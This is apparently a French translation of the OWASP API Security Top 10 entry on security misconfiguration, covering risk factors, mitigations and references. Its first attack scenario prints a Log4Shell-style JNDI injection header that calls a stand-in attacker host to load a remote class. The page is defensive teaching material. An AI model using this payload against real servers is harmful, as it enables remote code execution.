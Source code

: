 # API8:2023 Security Misconfiguration

| Facteurs de menace / Vecteurs d'attaque | Faille de sécurité | Impact |
| - | - | - |
| Spécifique à l'API : Exploitabilité **Facile** | Prévalence **Courante** : Détectabilité **Facile** | Technique **Grave** : Spécifique à l'organisation |
| Les attaquants cherchent souvent à trouver des failles non corrigées, des points d'accès courants, des services fonctionnant avec des configurations par défaut non sécurisées ou des fichiers et répertoires non protégés pour obtenir un accès non autorisé ou des informations sur le système. La plupart de ces informations sont publiques et des exploits peuvent être disponibles. | La mauvaise configuration de sécurité peut se produire à n'importe quel niveau de la pile API, du réseau à l'application. Des outils automatisés sont disponibles pour détecter et exploiter des configurations incorrectes telles que des services inutiles ou des options héritées. | Les mauvaises configurations de sécurité exposent non seulement des données utilisateur sensibles, mais aussi des détails système qui peuvent conduire à la compromission complète du serveur. |

## L'API est-elle vulnérable ?

L'API peut être vulnérable si :

* La sécurisation appropriée est absente à travers n'importe quelle partie de la pile API, ou si les permissions sur les services cloud sont mal configurées
* Les derniers correctifs de sécurité sont manquants, ou si les systèmes sont obsolètes
* Des fonctionnalités inutiles sont activées (par exemple, les verbes HTTP, les fonctionnalités de journalisation)
* Il y a des divergences dans la façon dont les requêtes entrantes sont traitées par les serveurs dans la chaîne du serveur HTTP
* La sécurité du transport (TLS) est absente
* Les directives de sécurité ou de contrôle de cache ne sont pas envoyées aux clients
* Une politique Cross-Origin Resource Sharing (CORS) est manquante ou mal configurée
* Les messages d'erreur incluent des traces de pile, ou exposent d'autres informations sensibles

## Exemple de scénarios d'attaque

### Scénario #1

Un serveur back-end d'API maintient un journal d'accès écrit par un utilitaire de journalisation open-source populaire avec prise en charge de l'expansion de paramètres et des recherches JNDI (Java Naming and Directory Interface), tous deux activés par défaut. Pour chaque requête, une nouvelle entrée est écrite dans le fichier journal avec le modèle suivant : `<méthode> <version_api>/<chemin> - <code_statut>`.

Un acteur malveillant émet la requête API suivante, qui est écrite dans le fichier journal d'accès :

```
GET /health
X-Api-Version: ${jndi:ldap://attacker.com/Malicious.class}
```

En raison de la configuration par défaut non sécurisée de l'utilitaire de journalisation et d'une politique de sortie réseau permissive, pour écrire l'entrée correspondante dans le journal d'accès, tout en développant la valeur de l'en-tête de requête `X-Api-Version`, l'utilitaire de journalisation va extraire et exécuter l'objet `Malicious.class` du serveur contrôlé à distance par l'attaquant.

### Scénario #2

Un site web de réseau social propose une fonctionnalité de "Message Direct" qui permet aux utilisateurs de garder des conversations privées. Pour récupérer de nouveaux messages pour une conversation spécifique, le site web émet la requête API suivante (l'interaction de l'utilisateur n'est pas requise) :

```
GET /dm/user_updates.json?conversation_id=1234567&cursor=GRlFp7LCUAAAA
```

Parce que la réponse de l'API ne comprend pas l'en-tête HTTP `Cache-Control`, les conversations privées sont mises en cache par le navigateur web, permettant aux acteurs malveillants de les récupérer à partir des fichiers de cache du navigateur.

## Comment s'en prémunir ?

Le cycle de vie de l'API devrait inclure :

* Un processus de durcissement reproductible menant à un déploiement rapide et facile d'un environnement correctement sécurisé
* Une tâche pour examiner et mettre à jour les configurations dans toute la pile API. L'examen devrait inclure : les fichiers d'orchestration, les composants API et les services cloud (par exemple, les autorisations de compartiment S3)
* Un processus automatisé pour évaluer en continu l'efficacité de la configuration et des paramètres dans tous les environnements

De plus :

* Assurez-vous que toutes les communications API du client vers le serveur API et tout composant en aval/amont se font sur un canal de communication chiffré (TLS), qu'il s'agisse d'une API interne ou publique.
* Soyez spécifique sur les verbes HTTP par lesquels chaque API peut être accédée : tous les autres verbes HTTP devraient être désactivés (par exemple, HEAD).
* Les API s'attendant à être accessibles depuis des clients basés sur un navigateur (par exemple, une interface WebApp) devraient, au moins :
  * implémenter une politique Cross-Origin Resource Sharing (CORS) appropriée
  * inclure les en-têtes de sécurité applicables
* Restreignez les types de contenu/format de données entrants à ceux qui répondent aux exigences commerciales/fonctionnelles.
* Assurez-vous que tous les serveurs dans la chaîne du serveur HTTP (par exemple, les équilibreurs de charge, les proxies inversés et avant, et les serveurs en aval) traitent les requêtes entrantes de manière uniforme pour éviter les problèmes de désynchronisation.
* Lorsque cela est applicable, définissez et appliquez tous les schémas de charge utile de réponse API, y compris les réponses d'erreur, pour empêcher les traces d'exception et d'autres informations précieuses d'être renvoyées aux attaquants.

## Références

### OWASP

* [OWASP Secure Headers Project][1]
* [Configuration and Deployment Management Testing - Web Security Testing
  Guide][2]
* [Testing for Error Handling - Web Security Testing Guide][3]
* [Testing for Cross Site Request Forgery - Web Security Testing Guide][4]

### Externes

* [CWE-2: Environmental Security Flaws][5]
* [CWE-16: Configuration][6]
* [CWE-209: Generation of Error Message Containing Sensitive Information][7]
* [CWE-319: Cleartext Transmission of Sensitive Information][8]
* [CWE-388: Error Handling][9]
* [CWE-444: Inconsistent Interpretation of HTTP Requests ('HTTP Request/Response
  Smuggling')][10]
* [CWE-942: Permissive Cross-domain Policy with Untrusted Domains][11]
* [Guide to General Server Security][12], NIST
* [Let's Encrypt: a free, automated, and open Certificate Authority][13]

[1]: https://owasp.org/www-project-secure-headers/
[2]: https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/02-Configuration_and_Deployment_Management_Testing/README
[3]: https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/08-Testing_for_Error_Handling/README
[4]: https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/06-Session_Management_Testing/05-Testing_for_Cross_Site_Request_Forgery
[5]: https://cwe.mitre.org/data/definitions/2.html
[6]: https://cwe.mitre.org/data/definitions/16.html
[7]: https://cwe.mitre.org/data/definitions/209.html
[8]: https://cwe.mitre.org/data/definitions/319.html
[9]: https://cwe.mitre.org/data/definitions/388.html
[10]: https://cwe.mitre.org/data/definitions/444.html
[11]: https://cwe.mitre.org/data/definitions/942.html
[12]: https://csrc.nist.gov/publications/detail/sp/800-123/final
[13]: https://letsencrypt.org/
